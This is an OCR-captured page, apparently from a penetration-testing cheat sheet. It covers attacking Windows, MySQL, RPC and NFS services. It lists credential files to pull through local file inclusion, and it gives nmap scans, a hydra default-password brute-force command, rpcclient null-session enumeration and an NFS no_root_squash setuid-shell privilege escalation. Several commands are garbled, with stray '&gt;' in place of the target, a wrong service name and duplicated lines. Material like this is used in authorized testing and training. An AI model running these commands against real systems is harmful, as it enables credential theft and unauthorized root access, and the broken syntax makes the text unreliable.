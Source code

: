 LFI Windows Files:

> $ %SYSTEMROOT%\repair\system  
> $ %SYSTEMROOT%\repair\SAM  
> $ %SYSTEMROOT%\repair\SAM  
> $ %WINDIR%\win.ini  
> $ %SYSTEMDRIVE%\boot.ini  
> $ %WINDIR%\Panther\sysprep.inf  
> $ %WINDIR%\system32\config\AppEvent.Evt  
> $ c:\windows\system32\drivers\etc\hosts

## MYSQL

Vulnerability Scanning

> $ nmap -p 3306 --script="+\*mysql\* and not brute and not dos and not fuzzer" -vv -oN mysql &gt; $ip

Deafult Creds

> $ hydra -s 3306 -C /usr/share/sparta/wordlists/mysql-default-userpass.txt -u -f &gt; $ip ftp

Public Exploit

## RPC

Find NFS Port

> $ nmap -p 111 --script=rpcinfo.nse -vv -oN nfs\_port &gt; $ip

Services Running

> $ rpcinfo –p &gt; $ip $ rpcbind -p rpcinfo –p x.x.x.x

Null Session/User Rpc login

> $ rpcclient -U "" &gt; $ip  
> ▪ srvinfo  
> ▪ enumdomusers  
> ▪ enumprivs  
> ▪ enumalsgroups domain  
> ▪ lookupnames administrators  
> ▪ querydominfo  
> ▪ enumdomusers  
> ▪ queryuser john

## NFS

Show Mountable NFS Shares

> $ nmap --script=nfs-showmount -oN mountable\_shares &gt; $ip $ showmount -e &gt; $ip

List NFS exported shares. If 'rw,no\_root\_squash' is present, upload and execute sid-shell

> $ chown root:root sid-shell; chmod +s sid-shell

## POP3
